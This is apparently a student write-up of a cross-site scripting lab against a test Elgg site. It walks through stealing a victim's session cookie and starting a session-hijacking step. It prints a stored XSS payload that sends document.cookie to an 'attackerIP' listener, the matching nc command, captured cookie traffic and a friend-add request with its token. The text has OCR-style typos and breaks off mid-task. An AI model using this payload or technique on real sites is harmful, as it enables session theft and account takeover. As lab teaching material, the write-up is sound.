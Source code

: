 
## Task 3 : Stealing cookies from the victim’s machine
- provide code in the 'about me' section 
  - obtain the cookie without having to be preset when the account of user11 is visited. 
- injects a code that basically is a `GET request` for an image and also adds the cookie of the victim in the url itself.

```js
// send out the cookies using http GET
<script>
document.write('<img src=http网址attackerIP:5555?c= ' + escape(decument.cookie) + ' >');
</script>
```

- when the browser tries to load the image from the URL in the `src` field
- an `HTTP GET request` sent to the attacker’s machine.
    - in the mean time, it sends the cookies to the `port 5555` of the attacker’s machine


- the attacker has a TCP server listening to the same port.
    - `$ nc -l 5555 -v`
- The server can print out whatever it receives.
- The next time someone on the web application, say alice visits the profile of user11, the code gets executed and the attacker gains the cookie for himself. The nc output seems like -


```
// The cookie starts after %3D.

GET /?c=Elgg%3Dtlgbp3diifsf0007299puq2kr1 HTTP/1.1
Host: 192.168.56.4:1234
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
```

---

## Task 4 : session hijacking using the stolen cookies
- stealing the session of a legitimate user by using their cookie and then add the victim as a friend. 

### capture the GET request packet
- the process of adding a friend has to be known to the attacker. 
  - the attacker creates another account say samy. 
  - This account can be added as a friend to user11's account to observe the process of adding a friend. 
- The attacker logs in to the account of samy and visits user11. 
  - Then he enables the inspect mode of the browser
  - watch the requests and cookies as he adds user11 as a friend to samy. 
- The friend adding process then shows a `GET request`
  - `http网址www.xsslabelgg.com/action/friends/add?friend=43&__elgg_ts=15281&__elgg_token=f0aaabcel`
  -                                                 userid &   Time Stamp  &  Security Token
